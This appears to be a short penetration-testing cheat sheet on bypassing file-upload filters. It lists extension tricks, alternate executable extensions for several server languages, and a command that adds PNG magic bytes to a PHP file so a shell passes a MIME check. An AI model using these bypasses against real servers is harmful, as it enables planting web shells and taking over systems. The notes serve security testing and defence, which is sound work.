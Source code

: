 ```yaml
---
title: upload-bypass
category: web
order: 1
---
```



# UPLOAD BYPASS:
https://www.owasp.org/index.php/Unrestricted_File_Upload  
https://soroush.secproject.com/blog/tag/unrestricted-file-upload/  
```
IIS 6.0 or below
Asp > upload as test.txt, copy or move file as test.asp;.txt

Php > upload as pHp / phP / test.php.jpg /

php - phtml, .php, .php3, .php4, .php5,.php7 and .inc

asp - asp, .aspx

perl - .pl, .pm, .cgi, .lib

jsp - .jsp, .jspx, .jsw, .jsv, and .jspf

Coldfusion - .cfm, .cfml, .cfc, .dbm
```

## image upload

As expected, the image gets rejected due to invalid MIME type. The magic bytes for PNG are “89 50 4E 47 0D 0A 1A 0A”, which can be added to the beginning of the shell.
```
echo '89 50 4E 47 0D 0A 1A 0A' | xxd -p -r > mime.php.png
```
